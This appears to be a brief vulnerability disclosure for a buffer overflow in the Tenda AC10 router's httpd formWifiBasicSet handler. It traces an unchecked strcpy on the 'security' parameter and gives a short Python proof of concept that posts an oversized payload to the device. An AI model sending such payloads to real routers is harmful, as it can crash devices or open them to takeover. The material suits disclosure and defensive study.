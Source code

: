 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/formWifiBasicSet

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](16.png)

get value from security ,and if all parameters are not set, get into else

![](17.png)

then call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/formWifiBasicSet"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'security': payload})
``` 

